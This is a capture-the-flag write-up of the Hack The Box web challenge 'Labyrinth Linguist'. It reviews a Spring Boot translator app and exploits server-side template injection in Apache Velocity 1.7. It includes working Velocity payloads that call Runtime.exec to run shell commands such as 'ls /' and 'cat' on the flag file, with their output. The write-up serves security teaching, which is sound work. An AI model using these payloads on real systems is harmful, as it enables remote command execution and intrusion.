 ```yaml
---
clayout: ctf
title: Labyrinth Linguist
date: 2024-12-29
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: Labyrinth Linguist
      link: https://app.hackthebox.com/challenges/649
      thumbnail: /ctf/hack-the-box/challenges/web/labyrinth-linguist/overview.png
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/649
          thumbnail: /ctf/hack-the-box/challenges/web/labyrinth-linguist/pwned.png
---
```


## Challenge Description

You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant
exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is
used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze.
It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned
against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with
the mutant and claim your last chance to make it out alive.

## Challenge Overview

This challenge presents a web application that simulates a translator for converting text into a fictional language
called **Voxalith**. Users can input text into a field, submit it, and view the translated output displayed on the page.

The application uses **Spring Boot** and **Apache Velocity** for templating, which is vulnerable to **Server-Side
Template Injection (SSTI)**. The objective is to exploit this vulnerability to execute arbitrary commands and retrieve
the flag.

## Code Review

### Technology Stack

- **Framework**: Spring Boot
- **Templating Engine**: Apache Velocity
- **Dependencies**:
  ```xml
  <dependency>
      <groupId>org.apache.velocity</groupId>
      <artifactId>velocity</artifactId>
      <version>1.7</version>
  </dependency>
  ```

The application leverages Apache Velocity for dynamic template rendering. The outdated version (1.7) is vulnerable to
SSTI, as identified in [CVE-2020-13936](https://www.mend.io/vulnerability-database/CVE-2020-13936).

### Main.java

The `Main.java` file contains the core logic, including the `/` endpoint that handles text input for translation.

#### Relevant Code Snippet:

```java
@RequestMapping("/")
@ResponseBody
String index(@RequestParam(required = false, name = "text") String textString) {
    if (textString == null) {
        textString = "Example text";
    }

    String template = "";

    try {
        template = readFileToString("/app/src/main/resources/templates/index.html", textString);
    } catch (IOException e) {
        e.printStackTrace();
    }

    RuntimeServices runtimeServices = RuntimeSingleton.getRuntimeServices();
    StringReader reader = new StringReader(template);

    org.apache.velocity.Template t = new org.apache.velocity.Template();
    t.setRuntimeServices(runtimeServices);
    try {
        t.setData(runtimeServices.parse(reader, "home"));
        t.initDocument();
        VelocityContext context = new VelocityContext();
        context.put("name", "World");

        StringWriter writer = new StringWriter();
        t.merge(context, writer);
        template = writer.toString();
    } catch (ParseException e) {
        e.printStackTrace();
    }

    return template;
}
```

#### Key Observations:

1. **Template Injection Point**:
    - The `textString` parameter is directly passed into the Velocity template engine without sanitization, making it
      vulnerable to SSTI.

2. **Dynamic Rendering**:
    - The `VelocityContext` dynamically renders templates, providing an entry point for executing malicious payloads.

## Exploitation: Server-Side Template Injection (SSTI)

### Vulnerability

Apache Velocity 1.7 is vulnerable to SSTI, allowing attackers to execute arbitrary Java code by injecting malicious
payloads into templates. The `textString` parameter serves as the injection point in this challenge.

### Proof of Concept (PoC)

#### Objective

Verify if the application processes injected Velocity expressions.

#### Payload:

```java
#set($x='<h1>Server-Side Template Injection</h1>') $x
```

#### Methodology:

1. Submit the payload through the input field or intercept the request using **Burp Suite**.
2. Observe the processed response. The presence of the `<h1>` tag in the output confirms SSTI vulnerability.

### Retrieving the Flag

#### Exploit Strategy

To retrieve the flag, we can inject a payload that executes arbitrary system commands. The following payload executes
the `ls /` command to list directory contents:

```java
#set($x='')##
#set($str=$x.class.forName("java.lang.String"))##
#set($chr=$x.class.forName("java.lang.Character"))##
#set($ex=$x.class.forName("java.lang.Runtime").getRuntime().exec('ls /'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

#### Result:

The output reveals the directory structure, including the flag file:

```
<h2 class="fire">0
app
bin
boot
dev
entrypoint.sh
etc
flagc4daff00be.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
</h2>
```

#### Reading the Flag

Using the following payload, we can read the content of `flagc4daff00be.txt`:

```java
#set($x='')##
#set($str=$x.class.forName("java.lang.String"))##
#set($chr=$x.class.forName("java.lang.Character"))##
#set($ex=$x.class.forName("java.lang.Runtime").getRuntime().exec('cat /flagc4daff00be.txt'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

#### Result:

The server returns the flag in the response:

```
HTB{f4k3_fl4g_f0r_t35t1ng}
```

We successfully exploited the SSTI vulnerability in Apache Velocity to retrieve the flag! 🎉

## References

- [Apache Velocity SSTI - CVE-2020-13936](https://www.mend.io/vulnerability-database/CVE-2020-13936)
- [PortSwigger - SSTI Explained](https://portswigger.net/web-security/server-side-template-injection)
- [HackTricks - SSTI Exploitation](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [Gosecure - Template Injection Workshop](https://gosecure.github.io/template-injection-workshop/#6)
- [Antgarsil - Velocity](https://antgarsil.github.io/posts/velocity/)